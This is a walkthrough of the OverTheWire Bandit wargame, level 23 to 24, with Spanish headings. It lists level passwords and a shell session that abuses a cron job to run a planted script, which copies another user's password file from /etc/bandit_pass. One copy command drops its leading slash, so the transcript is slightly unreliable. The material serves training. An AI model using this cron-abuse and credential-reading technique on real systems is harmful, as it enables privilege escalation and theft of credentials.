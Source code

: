 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos De Acceso al Nivel
```
bandit23
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```
## Solución
```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mktemp -d
/tmp/tmp.Y6IFs2kqXf
bandit23@bandit:~$ chmod 777 /tmp/tmp.Y6IFs2kqXf
bandit23@bandit:~$ cd /tmp/tmp.Y6IFs2kqXf
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ echo "cat /etc/bandit_pass/bandit24 > /tmp/tmp.Y6IFs2kqXf/password" > script.sh
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Y6IFs2kqXf/password
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ touch password
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ chmod 777 password
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4026 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rw-rw-r--    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4027 root     root     11063296 Sep  4 16:36 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ cp script.sh var/spool/bandit24/foo/
bandit23@bandit:/tmp/tmp.Y6IFs2kqXf$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
## Notas Adicionales
mktemp -d - crea una carpeta temporal
## Referencias